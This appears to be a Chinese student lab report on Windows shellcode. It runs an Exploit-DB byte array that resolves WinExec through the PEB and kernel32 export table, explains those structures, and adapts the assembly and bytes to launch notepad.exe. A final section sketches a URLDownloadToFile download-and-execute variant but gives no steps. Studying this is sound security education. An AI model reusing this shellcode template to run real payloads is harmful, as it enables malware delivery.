





# 一 [链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
	int (*func)();
	func = (int(*)()) code;
	(int)(*func)();
}
```
## 实验步骤：
1. VS2019中运行如上代码。文件类型需要为.c文件，同时对VS编译器项目属性中相关安全设置进行修改

2. 执行.c代码文件，计算器成功弹出

# 二 能从汇编源码编译通过并成功dump

## 实验步骤：
1. cd进入项目所在文件夹，对汇编源码编译与链接成功：

2. dumpbin运行成功：

# 三 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理

## shellcode实验原理：

 Shellcode 实际是一段机器码（可以解释为机器指令被执行）,通过溢出漏洞覆盖函数返回地址来执行, 一般可以获取权限。
 shellcode叫shellcode只是因为很早的时候劫持流程后都会去拿一个shell，所以就这么叫，慢慢沿用下来。（也有说法称因为cpu只识别机器指令，通常这些指令对应的就是shell命令，所以就叫他shellcode。）但其实shellcode可以实现的功能很多，不仅仅限于拿shell，也有下载文件，添加用户等，执行代码功能都是攻击者指定的。
```
 int main(int argc, char** argv)
{
	int (*func)();
	func = (int(*)()) code;
	(int)(*func)();
}
```
实例代码中，首先定义一个函数指针，接着进行强制类型转换，将code数组的地址赋给了函数指针。在调用func函数的之前，cpu需要将这个函数执行完以后的指令写到调用栈上，因为在执行func函数的时候把这个地址改掉了，而且改的内容是一个char数组，程序就去执行修改以后的数据（将数据视为机器码执行）。

## shellcode相关数据结构：

在Windows操作系统中，PEB是一个位于所有进程内存中固定位置的结构体。此结构体包含关于进程的有用信息，如可执行文件加载到内存的位置，模块列表（DLL），指示进程是否被调试的标志，还有许多其他的信息。

DLL（由于ASLR机制）可以加载到不同的内存位置，因此我们不能在shellcode中使用固定的内存地址。不过，我们可以使用PEB这个结构，位于固定的内存位置，从而查找DLL加载到内存中的地址。

查阅官方文档，PBE数据结构如下。一些称作“保留（Reserved）”字段没有相应的描述,而其他一些字段具有相应的文档描述。

```
typedef struct _PEB {
  BYTE                          Reserved1[2];
  BYTE                          BeingDebugged;
  BYTE                          Reserved2[1];
  PVOID                         Reserved3[2];
  PPEB_LDR_DATA                 Ldr;
  PRTL_USER_PROCESS_PARAMETERS  ProcessParameters;
  BYTE                          Reserved4[104];
  PVOID                         Reserved5[52];
  PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
  BYTE                          Reserved6[128];
  PVOID                         Reserved7[1];
  ULONG                         SessionId;
} PEB, *PPEB;
```

PEB_LDR_DATA包含如下信息：

```
typedef struct _PEB_LDR_DATA {
  BYTE       Reserved1[8];
  PVOID      Reserved2[3];
  LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

LIST_ENTRY结构是一个简单的双向链表，包含指向下一个元素（Flink）的指针和指向上一个元素的指针（Blink），其中每个指针占用4个字节：
```
typedef struct _LIST_ENTRY {
  struct _LIST_ENTRY  *Flink;
  struct _LIST_ENTRY  *Blink;
} LIST_ENTRY, *PLIST_ENTRY;
```

InMemoryOrderModuleList字段是一个指针，指向LDR_DATA_TABLE_ENTRY 结构体上的LIST_ENTRY字段。但是它不是指向LDR_DATA_TABLE_ENTRY 起始位置的指针，而是指向这个结构的InMemoryOrderLinks字段。Flink和Blink指向LIST_ENTRY结构体的指针。InInitializationOrderModuleList按照顺序保存进程加载的模块基址,其中第一个始终为ntdll.dll,第二个视系统的不同可能保存有Kernel32.dll或KernelBase.dll的信息。不管Kernel32.dll或KernelBase.dll都导出有我们需要的函数GetprocAddress和LoadLibraryEx，而LoadLibrary只在Kernel32.dll导出。

如果想要获取到函数地址，那么它的DLL必须已经加载到内存中了，如果不在，就要通过函数LoadLibrary将目标DLL加载到内存中。函数GetProcAddress可得到得到其他函数的地址。也就是说，只要得到了函数LoadLibrary和GetProcAddress，就可以得到任何系统函数的地址了。

# 四 修改shellcode功能为运行记事本程序notepad.exe

## 实验步骤：

1. 修改字符串“calc.exe”为“notepad.exe”，其他过程均仿照示例执行即可。

数据在栈中是逆序存储的，要得到“notepad.exe”，则需我们输入“exe.dapeton”。由于push指令不能超过8位，所以需要将字符串每4个字符分为一组，不足的地方就用0x00来代替，这样就得到了欲拼接的字符串。

修改链接中汇编代码如下：
```
_start:
; Create a new stack frame
 mov ebp, esp            ; Set base stack pointer for new stack-frame
 sub esp, 0x20           ; Decrement the stack by 32 bytes

; Find kernel32.dll base address
 xor ebx, ebx            ; EBX = 0x00000000
 mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
 mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
 mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
 mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
 mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
 mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
 mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll

; Find the address of the WinExec Symbol within kernel32.dll
; + The hex values will change with different versions of Windows

; Find the address of the Export Table within kernel32.dll
 mov ebx, [eax+0x3C]     ; EBX = Offset NewEXEHeader  = 0xF8
 add ebx, eax            ; EBX = &NewEXEHeader        = 0xF8 + &kernel32.dll
 mov ebx, [ebx+0x78]     ; EBX = RVA ExportTable      = 0x777B0 = [&NewExeHeader + 0x78]
 add ebx, eax            ; EBX = &ExportTable         = RVA ExportTable + &kernel32.dll

; Find the address of the Name Pointer Table within kernel32.dll
; + Contains pointers to strings of function names - 4-byte/dword entries
 mov edi, [ebx+0x20]     ; EDI = RVA NamePointerTable = 0x790E0
 add edi, eax            ; EDI = &NamePointerTable    = 0x790E0 + &kernel32.dll
 mov [ebp-0x8], edi      ; save &NamePointerTable to stack frame

; Find the address of the Ordinal Table
;   - 2-byte/word entries
 mov ecx, [ebx+0x24]     ; ECX = RVA OrdinalTable     = 0x7A9E8
 add ecx, eax            ; ECX = &OrdinalTable        = 0x7A9E8 + &kernel32.dll
 mov [ebp-0xC], ecx      ; save &OrdinalTable to stack-frame

; Find the address of the Address Table
 mov edx, [ebx+0x1C]     ; EDX = RVA AddressTable     = 0x777CC
 add edx, eax            ; EDX = &AddressTable        = 0x777CC + &kernel32.dll
 mov [ebp-0x10], edx     ; save &AddressTable to stack-frame

; Find Number of Functions within the Export Table of kernel32.dll
 mov edx, [ebx+0x14]     ; EDX = Number of Functions  = 0x642
 mov [ebp-0x14], edx     ; save value of Number of Functions to stack-frame

jmp short functions

findFunctionAddr:
; Initialize the Counter to prevent infinite loop
 xor eax, eax            ; EAX = Counter = 0
 mov edx, [ebp-0x14]     ; get value of Number of Functions from stack-frame
; Loop through the NamePointerTable and compare our Strings to the Name Strings of kernel32.dll
searchLoop:
 mov edi, [ebp-0x8]      ; EDI = &NamePointerTable
 mov esi, [ebp+0x18]     ; ESI = Address of String for the Symbol we are searching for 
 xor ecx, ecx            ; ECX = 0x00000000
 cld                     ; clear direction flag - Process strings from left to right
 mov edi, [edi+eax*4]    ; EDI = RVA NameString      = [&NamePointerTable + (Counter * 4)]
 add edi, [ebp-0x4]      ; EDI = &NameString         = RVA NameString + &kernel32.dll
 add cx, 0x8             ; ECX = len("WinExec,0x00") = 8 = 7 char + 1 Null
 repe cmpsb              ; compare first 8 bytes of [&NameString] to "WinExec,0x00"
 jz found                ; If string at [&NameString] == "WinExec,0x00", then end loop
 inc eax                 ; else Counter ++
 cmp eax, edx            ; Does EAX == Number of Functions?
 jb searchLoop           ;   If EAX != Number of Functions, then restart the loop

found:
; Find the address of WinExec by using the last value of the Counter
 mov ecx, [ebp-0xC]      ; ECX = &OrdinalTable
 mov edx, [ebp-0x10]     ; EDX = &AddressTable
 mov ax,  [ecx + eax*2]  ;  AX = ordinalNumber   = [&OrdinalTable + (Counter*2)]
 mov eax, [edx + eax*4]  ; EAX = RVA WinExec     = [&AddressTable + ordinalNumber]
 add eax, [ebp-0x4]      ; EAX = &WinExec        = RVA WinExec + &kernel32.dll
 ret

functions:
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
 mov edx, 0x63657878     ; "cexx"
 shr edx, 8              ; Shifts edx register to the right 8 bits
 push edx                ; "\x00,cex"
 push 0x456E6957         ; EniW : 456E6957
 mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
 call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "calc.exe"
;   ShowState = 0x00000001 = SW_SHOWNORMAL - displays a window
 xor ecx, ecx          ; clear eax register
 push ecx              ; string terminator 0x00 for "calc.exe" string
 push 0x00657865       ; 0exe
 push 0x2e646170       ; .dap 
 push 0x65746F6E       ;eton:
 mov ebx, esp          ; save pointer to "calc.exe" string in eax
 inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
 push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
 push ebx              ; lpcmdLine - push string address stack # 1st argument
 call eax              ; Call the WinExec Function

; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)

; nasm -f nxexp1.asm -o nxexp1.o
; for i in $(objdump -D nxexp1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

2. 在kali-linux中使用nasm工具将汇编代码转为机器码对应字符数组
```
nasm -f nxexp1.asm -o nxexp1.o
for i in $(objdump -D nxexp1.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```



3. 根据字符数组，修改C代码如下（仅修改shellcode部分）：

```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x65\x78\x65\x00\x68\x70\x61\x64\x2e\x68\x6e\x6f\x74\x65\x89"
"\xe3\x41\x51\x53\xff\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08"
"\x51\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x82"
"\xff\xff\xff\x31\xd2\x52\xff\xd0";


int main(int argc, char** argv)
{
	int (*func)();
	func = (int(*)()) code;
	(int)(*func)();
}
```

运行成功，弹出记事本



# 五 (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

## 实验原理：

调用URLDownloadToFile函数下载恶意文件到本地，并且使用Winexec执行

```
HRESULT URLDownloadToFile( 
LPUNKNOWN pCaller, 
LPCTSTR szURL, 
LPCTSTR szFileName, 
_Reserved_ DWORD dwReserved, 
LPBINDSTATUSCALLBACK lpfnCB 
);
```


## 实验步骤：

